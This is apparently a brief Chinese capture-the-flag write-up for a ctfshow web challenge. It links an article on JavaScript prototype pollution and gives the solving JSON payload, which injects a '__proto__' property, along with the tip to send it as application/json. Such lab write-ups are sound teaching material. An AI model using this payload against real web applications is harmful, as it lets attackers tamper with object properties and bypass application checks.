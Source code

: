 # 知识点
[深入理解 JavaScript Prototype 污染攻击 | 离别歌](https://www.leavesongs.com/PENETRATION/javascript-prototype-pollution-attack.html)
# 思路
```php
{"__proto__":{"ctfshow":"36dboy"}}
```
enctype要改成application/json<br />![image.png](./images/20231017_2349418832.png)
